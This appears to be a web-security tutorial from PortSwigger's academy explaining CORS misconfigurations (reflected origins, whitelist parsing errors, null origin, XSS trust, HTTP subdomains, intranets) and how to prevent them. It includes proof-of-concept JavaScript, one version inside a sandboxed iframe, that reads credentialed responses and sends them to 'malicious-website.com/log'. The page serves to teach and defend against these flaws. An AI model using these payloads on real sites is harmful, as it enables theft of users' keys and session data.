

Cross-origin resource sharing (CORS)
In this section, we will explain what cross-origin resource sharing (CORS) is, describe some common examples of cross-origin resource sharing based attacks, and discuss how to protect against these attacks. This topic was written in collaboration with PortSwigger Research, who popularized this attack class with the presentation Exploiting CORS misconfigurations for Bitcoins and bounties.
What is CORS (cross-origin resource sharing)?
Cross-origin resource sharing (CORS) is a browser mechanism which enables controlled access to resources located outside of a given domain. It extends and adds flexibility to the same-origin policy (SOP). However, it also provides potential for cross-domain attacks, if a website's CORS policy is poorly configured and implemented. CORS is not a protection against cross-origin attacks such as cross-site request forgery (CSRF).

Labs
If you're already familiar with the basic concepts behind CORS vulnerabilities and just want to practice exploiting them on some realistic, deliberately vulnerable targets, you can access all of the labs in this topic from the link below.
Same-origin policy
The same-origin policy is a restrictive cross-origin specification that limits the ability for a website to interact with resources outside of the source domain. The same-origin policy was defined many years ago in response to potentially malicious cross-domain interactions, such as one website stealing private data from another. It generally allows a domain to issue requests to other domains, but not to access the responses.
Read more
Relaxation of the same-origin policy
The same-origin policy is very restrictive and consequently various approaches have been devised to circumvent the constraints. Many websites interact with subdomains or third-party sites in a way that requires full cross-origin access. A controlled relaxation of the same-origin policy is possible using cross-origin resource sharing (CORS).
The cross-origin resource sharing protocol uses a suite of HTTP headers that define trusted web origins and associated properties such as whether authenticated access is permitted. These are combined in a header exchange between a browser and the cross-origin web site that it is trying to access.
Vulnerabilities arising from CORS configuration issues
Many modern websites use CORS to allow access from subdomains and trusted third parties. Their implementation of CORS may contain mistakes or be overly lenient to ensure that everything works, and this can result in exploitable vulnerabilities.
Server-generated ACAO header from client-specified Origin header
Some applications need to provide access to a number of other domains. Maintaining a list of allowed domains requires ongoing effort, and any mistakes risk breaking functionality. So some applications take the easy route of effectively allowing access from any other domain.
One way to do this is by reading the Origin header from requests and including a response header stating that the requesting origin is allowed. For example, consider an application that receives the following request:
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...It then responds with:
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
...
These headers state that access is allowed from the requesting domain (malicious-website.com) and that the cross-origin requests can include cookies (Access-Control-Allow-Credentials: true) and so will be processed in-session.
Because the application reflects arbitrary origins in the Access-Control-Allow-Origin header, this means that absolutely any domain can access resources from the vulnerable domain. If the response contains any sensitive information such as an API key or CSRF token, you could retrieve this by placing the following script on your website:
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();
function reqListener() {
location='//malicious-website.com/log?key='+this.responseText;
};Errors parsing Origin headers
Some applications that support access from multiple origins do so by using a whitelist of allowed origins. When a CORS request is received, the supplied origin is compared to the whitelist. If the origin appears on the whitelist then it is reflected in the Access-Control-Allow-Origin header so that access is granted. For example, the application receives a normal request like:
GET /data HTTP/1.1
Host: normal-website.com
...
Origin: https://innocent-website.comThe application checks the supplied origin against its list of allowed origins and, if it is on the list, reflects the origin as follows:
HTTP/1.1 200 OK
...
Access-Control-Allow-Origin: https://innocent-website.comMistakes often arise when implementing CORS origin whitelists. Some organizations decide to allow access from all their subdomains (including future subdomains not yet in existence). And some applications allow access from various other organizations' domains including their subdomains. These rules are often implemented by matching URL prefixes or suffixes, or using regular expressions. Any mistakes in the implementation can lead to access being granted to unintended external domains.
For example, suppose an application grants access to all domains ending in:
normal-website.comAn attacker might be able to gain access by registering the domain:
hackersnormal-website.comAlternatively, suppose an application grants access to all domains beginning with
normal-website.comAn attacker might be able to gain access using the domain:
normal-website.com.evil-user.netWhitelisted null origin value
The specification for the Origin header supports the value null. Browsers might send the value null in the Origin header in various unusual situations:
- Cross-origin redirects.
- Requests from serialized data.
-
Request using the
file:protocol. - Sandboxed cross-origin requests.
Some applications might whitelist the null origin to support local development of the application. For example, suppose an application receives the following cross-origin request:
GET /sensitive-victim-data
Host: vulnerable-website.com
Origin: nullAnd the server responds with:
HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
In this situation, an attacker can use various tricks to generate a cross-origin request containing the value null in the Origin header. This will satisfy the whitelist, leading to cross-domain access. For example, this can be done using a sandboxed iframe cross-origin request of the form:
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();
function reqListener() {
location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>Exploiting XSS via CORS trust relationships
Even "correctly" configured CORS establishes a trust relationship between two origins. If a website trusts an origin that is vulnerable to cross-site scripting (XSS), then an attacker could exploit the XSS to inject some JavaScript that uses CORS to retrieve sensitive information from the site that trusts the vulnerable application.
Given the following request:
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: https://subdomain.vulnerable-website.com
Cookie: sessionid=...If the server responds with:
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
Then an attacker who finds an XSS vulnerability on subdomain.vulnerable-website.com could use that to retrieve the API key, using a URL like:
https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>Breaking TLS with poorly configured CORS
Suppose an application that rigorously employs HTTPS also whitelists a trusted subdomain that is using plain HTTP. For example, when the application receives the following request:
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: http://trusted-subdomain.vulnerable-website.com
Cookie: sessionid=...The application responds with:
HTTP/1.1 200 OK
Access-Control-Allow-Origin: http://trusted-subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: trueIn this situation, an attacker who is in a position to intercept a victim user's traffic can exploit the CORS configuration to compromise the victim's interaction with the application. This attack involves the following steps:
- The victim user makes any plain HTTP request.
-
The attacker injects a redirection to:
http://trusted-subdomain.vulnerable-website.com - The victim's browser follows the redirect.
-
The attacker intercepts the plain HTTP request, and returns a spoofed response containing a CORS request to:
https://vulnerable-website.com -
The victim's browser makes the CORS request, including the origin:
http://trusted-subdomain.vulnerable-website.com - The application allows the request because this is a whitelisted origin. The requested sensitive data is returned in the response.
- The attacker's spoofed page can read the sensitive data and transmit it to any domain under the attacker's control.
This attack is effective even if the vulnerable website is otherwise robust in its usage of HTTPS, with no HTTP endpoint and all cookies flagged as secure.
Read more
Intranets and CORS without credentials
Most CORS attacks rely on the presence of the response header:
Access-Control-Allow-Credentials: trueWithout that header, the victim user's browser will refuse to send their cookies, meaning the attacker will only gain access to unauthenticated content, which they could just as easily access by browsing directly to the target website.
However, there is one common situation where an attacker can't access a website directly: when it's part of an organization's intranet, and located within private IP address space. Internal websites are often held to a lower security standard than external sites, enabling attackers to find vulnerabilities and gain further access. For example, a cross-origin request within a private network may be as follows:
GET /reader?url=doc1.pdf
Host: intranet.normal-website.com
Origin: https://normal-website.comAnd the server responds with:
HTTP/1.1 200 OK
Access-Control-Allow-Origin: *The application server is trusting resource requests from any origin without credentials. If users within the private IP address space access the public internet then a CORS-based attack can be performed from the external site that uses the victim's browser as a proxy for accessing intranet resources.
How to prevent CORS-based attacks
CORS vulnerabilities arise primarily as misconfigurations. Prevention is therefore a configuration problem. The following sections describe some effective defenses against CORS attacks.
Proper configuration of cross-origin requests
If a web resource contains sensitive information, the origin should be properly specified in the Access-Control-Allow-Origin header.
Only allow trusted sites
It may seem obvious but origins specified in the Access-Control-Allow-Origin header should only be sites that are trusted. In particular, dynamically reflecting origins from cross-origin requests without validation is readily exploitable and should be avoided.
Avoid whitelisting null
Avoid using the header Access-Control-Allow-Origin: null. Cross-origin resource calls from internal documents and sandboxed requests can specify the null origin. CORS headers should be properly defined in respect of trusted origins for private and public servers.
Avoid wildcards in internal networks
Avoid using wildcards in internal networks. Trusting network configuration alone to protect internal resources is not sufficient when internal browsers can access untrusted external domains.
CORS is not a substitute for server-side security policies
CORS defines browser behaviors and is never a replacement for server-side protection of sensitive data - an attacker can directly forge a request from any trusted origin. Therefore, web servers should continue to apply protections over sensitive data, such as authentication and session management, in addition to properly configured CORS.